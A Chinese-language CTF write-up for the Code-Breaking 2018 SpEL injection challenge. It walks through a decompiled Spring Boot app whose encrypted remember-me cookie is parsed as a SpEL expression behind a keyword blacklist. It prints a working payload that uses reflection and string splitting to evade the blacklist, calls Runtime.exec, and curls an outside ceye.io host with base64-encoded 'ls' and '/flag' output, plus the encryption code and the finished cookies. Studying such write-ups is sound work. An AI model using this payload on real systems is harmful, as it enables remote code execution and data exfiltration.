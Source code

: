#### 题目来源于：

Java安全漫谈 - 01.反射篇(1)

关于绕沙盒，Code-Breaking 2018 P神出的⼀道SpEL的题⽬：
http://rui0.cn/archives/1015

在安全研究中，我们使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。⽐如，上下⽂中如果只有Integer类型的 数字，我们如何获取到可以执⾏命令的Runtime类呢？也许可以这样（伪代码）： `1.getClass().forName("java.lang.Runtime")`

#### 解题思路：

通过IDEA lib将给出的jar包反编译，看到源代码：

**程序结构：**

<img src="http://rui0.cn/wp-content/uploads/2018/11/Ping_Mu_Kuai_Zhao_-2018-11-25-_Xia_Wu_6-3.png" alt="屏幕快照 2018-11-25 下午6.34.08" style="zoom:50%;" />

从`SpringBoot`的配置 **`application.yml`**看起：

```java
spring:
  thymeleaf:
    encoding: UTF-8
    cache: false
    mode: HTML
keywords:
  blacklist:
    - java.+lang
    - Runtime
    - exec.*\(
user:
  username: admin
  password: admin
  rememberMeKey: c0dehack1nghere1
```

主要一个黑名单和一个用户的提供。

**其他文件 ：**
`SmallEvaluationContext` 继承 `StandardEvaluationContext`，主要是提供一个上下文环境，相当于一个容器。
`ChallengeApplication` 用于启动
`Encryptor` 加密解密工具类
`KeyworkProperties` 使用黑名单时需要
`UserConfig` 用户模型，可以看到在`RemberMe`时使用了`Encryptor`

主要看**`MainController`**：（按住Ctrl+F12查看类的方法）

<img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240406155857927.png" alt="image-20240406155857927" style="zoom:50%;" />

- `admin()`：处理GET请求，检查是否存在有效的记住我cookie，验证用户会话，根据用户状态返回不同的视图。
- `login()`：处理GET请求，返回登录页面。
- `loginError()`：处理GET请求，返回带有登录错误信息的登录页面。
- `login()`：处理POST请求，验证用户名和密码，设置用户会话，如果用户选择记住我，设置记住我cookie。
- `handleForbiddenException()`：异常处理方法，处理 `HttpClientErrorException` 异常，返回HTTP状态码403（禁止访问）的页面。

从登陆看起，**login**的路由：

```java
    @PostMapping({"/login"})
    public String login(@RequestParam(value = "username",required = true) String username, @RequestParam(value = "password",required = true) String password, @RequestParam(value = "remember-me",required = false) String isRemember, HttpSession session, HttpServletResponse response) {
        if (this.userConfig.getUsername().contentEquals(username) && this.userConfig.getPassword().contentEquals(password)) {
            session.setAttribute("username", username);
            if (isRemember != null && !isRemember.equals("")) {
                Cookie c = new Cookie("remember-me", this.userConfig.encryptRememberMe());
                c.setMaxAge(2592000);
                response.addCookie(c);
            }

            return "redirect:/";
        } else {
            return "redirect:/login-error";
        }
    }
```

判断用户名密码，如果勾选了`remberMe`则浏览器存入加密后的cookie。
最后跳转hello.html

比较敏感的一个操作就是对Cookie的处理，如下：

```java
    @GetMapping
    public String admin(@CookieValue(value = "remember-me",required = false) String rememberMeValue, HttpSession session, Model model) {
        if (rememberMeValue != null && !rememberMeValue.equals("")) {
            String username = this.userConfig.decryptRememberMe(rememberMeValue);
            if (username != null) {
                session.setAttribute("username", username);
            }
        }

        Object username = session.getAttribute("username");
        if (username != null && !username.toString().equals("")) {
            model.addAttribute("name", this.getAdvanceValue(username.toString()));
            return "hello";
        } else {
            return "redirect:/login";
        }
    }
```

程序判断`rememberMeValue`存在后，直接对其进行解密，然后将其`setAttribute`，接下来可以看到`this.getAdvanceValue(username.toString())`

```java
   private String getAdvanceValue(String val) {
        String[] var2 = this.keyworkProperties.getBlacklist();
        int var3 = var2.length;

        for(int var4 = 0; var4 < var3; ++var4) {
            String keyword = var2[var4];
            Matcher matcher = Pattern.compile(keyword, 34).matcher(val);
            if (matcher.find()) {
                throw new HttpClientErrorException(HttpStatus.FORBIDDEN);
            }
        }

        ParserContext parserContext = new TemplateParserContext();
        Expression exp = this.parser.parseExpression(val, parserContext);
        SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
        return exp.getValue(evaluationContext).toString();
    }
```

其实就是与其跟黑名单做正则匹配，如果匹配成功则抛出`HttpStatus.FORBIDDEN`，如果没有匹配到则进行正常流程，在`SmallEvaluationContext`进行SpEL表达式解析。注意，这里就存在El表达式注入的问题了。
在java中我们可以通过`Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator")`来执行命令，但在这个题目中使用了黑名单。
所以这里我们需要使用反射来构造一条调用链，这样就可以在关键字处使用字符串拼接来达到绕过黑名单的效果。



#### POC：

```
System.out.println(Encryptor.encrypt("c0dehack1nghere1", "0123456789abcdef", "#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"/bin/bash\",\"-c\",\"curl fg5hme.ceye.io/`cd / && ls|base64|tr '\\n' '-'`\"})}"));
```



payload代码：

```java
import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import java.io.UnsupportedEncodingException;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.Base64;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;


class Encryptor{
    public static String encrypt(String key, String initVector, String value){
        try {
            IvParameterSpec iv = new IvParameterSpec(initVector.getBytes("UTF-8"));
            SecretKeySpec skeySpec = new SecretKeySpec(key.getBytes("UTF-8"),"AES");
            Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5PADDING");
            cipher.init(1, skeySpec, iv);
            byte[] encrypted = cipher.doFinal(value.getBytes());
            return Base64.getUrlEncoder().encodeToString(encrypted);
        } catch (Exception var7) {

        }
            return null;
    }
}
public class Main {
    public static void main(String[] args) {
        //System.out.println(Encryptor.encrypt("c0dehack1nghere1", "0123456789abcdef", "#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"/bin/bash\",\"-c\",\"curl h1x3lu.ceye.io/`cd / && ls|base64|tr '\\n' '-'`\"})}"));
        System.out.println(Encryptor.encrypt("c0dehack1nghere1", "0123456789abcdef", "#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"/bin/bash\",\"-c\",\"curl h1x3lu.ceye.io/`cd / && cat /flag |base64|tr '\\n' '-'`\"})}"));

    }
}
```

payload：

`ls`

```
bvik1nAmjEAllRdn5UKWGC9uCj0hW0P2B6k1uigkS1acKxD9b_xNi-x09UGgjU1DvDEI2GGk4Jn0ApM_cSVc0G7kGnvvtewNRVsfqFUCR0fMAPqbj6yqACW6XVtt8Fp1nBwebKd7pkYSZCv6Yj3X7H-0-8HDV6F3sS3yWHUQEBPAyiNmKfkSKUV5VVlNdo16Nij8YX8HvKdeMHJ7_5Sdjfmfq3dKPeUOivMyVp_GdEkffgly4YX4eWCOzQRr4uQgodsKw2pC9N9udnw3Fz7O5ZhzmoYttjLubBowMtkF-Q6HHCvBrK9SWCzRQXC6jqYX_XeqyZuDreUixnpXpzlN9ATMq650tXCEsY3IgEjPBfhcSmjLzXBM5SfCvOvJl8mVEAaQrepOVWcUrC7gZ78bsG3T2_eji1vxWlPf5iBOD_mETPh1evzmoXp81J0OuD_r
```

`cat /flag`

```
bvik1nAmjEAllRdn5UKWGC9uCj0hW0P2B6k1uigkS1acKxD9b_xNi-x09UGgjU1DvDEI2GGk4Jn0ApM_cSVc0G7kGnvvtewNRVsfqFUCR0fMAPqbj6yqACW6XVtt8Fp1nBwebKd7pkYSZCv6Yj3X7H-0-8HDV6F3sS3yWHUQEBPAyiNmKfkSKUV5VVlNdo16Nij8YX8HvKdeMHJ7_5Sdjfmfq3dKPeUOivMyVp_GdEkffgly4YX4eWCOzQRr4uQgodsKw2pC9N9udnw3Fz7O5ZhzmoYttjLubBowMtkF-Q6HHCvBrK9SWCzRQXC6jqYX_XeqyZuDreUixnpXpzlN9ATMq650tXCEsY3IgEjPBfhcSmjLzXBM5SfCvOvJl8mVEAaQrepOVWcUrC7gZ78bsPa0aeXame9ygRwZ6rMs20_jKJBDSpGEHkactNk7wvVkjG8IIfgg9yDUoDPSkEkJfw==
```

![image-20240410094908871](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240410094908871.png)

![image-20240410094938746](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240410094938746.png)
